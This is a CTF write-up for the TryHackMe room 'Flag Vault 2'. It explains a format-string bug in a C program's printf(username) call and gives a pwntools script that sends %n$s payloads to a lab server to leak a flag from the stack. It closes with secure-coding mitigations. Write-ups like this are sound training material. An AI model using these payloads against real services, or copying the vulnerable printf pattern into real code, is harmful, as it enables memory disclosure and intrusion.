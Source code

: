 # TryHackMe - Flag Vault 2 (CTF Write-up)

> Author: Adam Pawelczyk
>
> Date: 2025.07.10
>
> Category: Binary Exploitation
>
> Difficulty: Easy
>
> [TryHackMe Link](https://tryhackme.com/room/hfb1flagvault2)

---

## Challenge Description

> How did you do that? No worries. I'll adjust a couple of lines of code so you won't be able to get the flag anymore. This time, for real. Here's the source code once again.

It appears that ByteReaper was not satisfied with the flag being obtained last time, In this follow-up to the ["Flag Vault"](https://github.com/adampawelczyk/ctf-writeups/tree/master/thm/flag-vault) challenge, the developer claims to have addressed the vulnerability and secured the flag. Our objective is to determine whether this fix is effective.

## Goal

Find and exploit a vulnerability in the updated code to retrieve the flag.

## TL;DR

- The updated C source code was reviewed.
- It was observed that the flag is no longer printed directly, but it is still read from `flag.txt`.
- A format string vulnerability was found in the `printf(username)` inside the `print_flag()` function.
- The `%s` format specifier was used with positional arguments to leak memory content.
- The stack positions were brute-forced until the flag appeared in the output.

## Source Code Analysis

This is the vulnerable section of the updated code:

```c
void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

### Key Observations:

- The flag is still being read into memory from `flag.txt`, but the line that prints it is commented out.
- The `username` input is passed directly into `printf()` without a format string - a format string vulnerability.
- As `flag` is located on the stack and control over `username` is available, memory leakage can be attempted using format specifiers.

## Exploitation Strategy

1. Abuse the vulnerable `printf(username)` to leak stack data.
2. Use `%<n>$s` to print a string from a specific stack position.
3. Brute-force different values of `<n>` until the flag appears.

## Exploit Code

Here is the Python exploit using `pwntools`:

```python
from pwn import *

context.log_level = 'warning'

for position in range(1, 101):
    conn = remote('10.10.239.226', 1337)
    payload = f'%{position}$s'

    conn.recvuntil(b'Username:')
    conn.sendline(payload.encode())

    response = conn.recvall().decode()

    if 'THM{' in response:
        print(response)
        break
```

This script:
- Connects to the challenge server.
- Sends a payload like `%1$s`, `%2$s`, etc.
- Checks each response for the presence of the flag.
- Stops when the flag is found and printed back to the output.

## Exploitation Output

The script output revealed the following result:

![result.png](images/result.png)

The screenshot shows the flag successfully leaked through the format string vulnerability.

## What Happened?

This version tried to hide the flag by commenting out the `printf(flag)` line. But the dev didn't consider the consequences of using a user-controlled string in a raw `printf()` call. Without a format string, `printf(username)` treats input as a format string, meaning `%s`, `%x`, and other format directives are interpreted by the program.

The `flag` variable, although not printed directly, remains on the stack after being loaded. Through sufficient brute-forcing, the correct stack position was identified, and `%s` was used to leak the string.

## Conclusion

This was an example of a format string bug. Even though the flag wasn't directly printed anymore, the vulnerability allowed us to leak it from memory anyway.

## Skills Practiced

- Format string exploitation.
- Brute-forcing positional arguments.
- Using `pwntools` to automate and streamline exploitation.

## Mitigations

- Never use user input directly in `printf()`. Always use a format string like `printf("%s", username);`.
- Be cautious even when hiding or commenting out code - data still in memory can still be leaked.

## Final Thoughts

This challenge was a great follow-up to the original. It reinforced the importance of secure coding practices - especially in C. It's always satisfying to bypass a developer's "fix" and find another hole they didn't think of.

**Note:** The flag was redacted to comply with TryHackMe's write-up policy.